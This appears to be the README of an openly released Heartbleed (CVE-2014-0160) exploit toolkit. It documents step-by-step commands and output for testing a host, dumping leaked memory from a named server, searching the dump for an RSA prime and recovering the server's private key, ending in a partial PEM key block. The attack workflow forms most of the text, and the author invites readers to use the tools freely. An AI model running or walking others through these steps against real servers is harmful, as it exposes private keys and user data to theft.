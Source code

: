 ## OpenSSL Heartbleed (CVE-2014-0160) vulnerability scanner, data miner and RSA key-restore tools.

Author: Einar Otto Stangvik / @einaros / https://hacking.ventures

Since the cat is long since out of the bag, and others have begun publishing their tools,
I'm putting mine out there too. Hopefully this amplifies the pressure on those that still
haven't patched or upgraded their severs. Others may find the tools of educational value.

Do with them as you please, but do us all a favor: Solve problems instead of creating them.

Based on works by:
- Jared Stafford
- Jeremi M Gosney
- Ben M Murphy 
- ... and many others.

### Usage:

```
# Test vulnerability
$ ./hb.py -p 4433 localhost
localhost:4433 is vulnerable

# Dupm data from CloudFlare's old challenge server
$ ./hb.py -p 443 www.cloudflarechallenge.com -n 0xF000 -l 100 -t 50 -d -o cloudflare-dump.bin
[2014/04/14 10:55:48] Incoming data rate: 85877 kbps
... runs for a while

# Look for prime in the dump
$ ./keyscan.py cloudflare.crt cloudflare-dump.bin
Key size: 128
Data length: 173476834
cloudflare-dump.bin Offset 0xf155ec: p = 13827796798740740191625032142481917804987720337701...

# Extract key once found
$ ./keyscan.py cloudflare.crt cloudflare-dump.bin 0xf155ec
Prime should be at offset: f155ec
Key size: 128

Hexdump of surrounding data:
f151ec: D0 00 00 00 00 00 00 00 00 00 00 00 00 00 30 C0  ..............0.
f151fc: 3C 01 00 00 00 00 00 00 00 00 00 00 00 00 90 8B  <...............
f1520c: D0 00 00 00 00 00 02 00 C3 A3 4D 08 48 47 00 00  ..........M.HG..
...

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAm0AWkVnDx5feOctdC97Ztgvtd25uKKmhjCHpLycmExe1RiRSl/hGIL7f8Fg/
qiUztVm5uXZJ1UG7dzz+9OtTNh+v27BtzPsU3yivHevwAB1mTMtP6bPuXBjzsxRcC9yVcBBWpKBM
...
```

### License

The author can't and won't hold any right to any part of this package. It's based on open ideas,
and shall remain open for all he cares.
